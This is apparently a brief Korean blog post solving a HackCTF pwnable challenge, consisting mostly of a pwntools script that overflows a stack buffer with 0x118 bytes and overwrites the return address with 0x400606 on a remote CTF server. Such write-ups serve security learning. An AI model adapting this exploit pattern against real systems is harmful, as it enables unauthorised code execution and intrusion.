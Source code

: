```yaml
---
title: "[HackCtf] x64 Buffer Overflow"
date: 2020-07-09
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


<span class="color-blue">HackCTF</span>의 첫 번째 <span class="color-blue">Pwnable</span> 문제로 <span class="color-blue">bof</span>를 이용한다.
{% highlight python %}
from pwn import *
context.log_level="debug"
p = remote("ctf.j0n9hyun.xyz", 3004)

payload = "a"*0x118
payload+= p64(0x400606)

p.sendline(payload)

p.interactive()
{% endhighlight %}
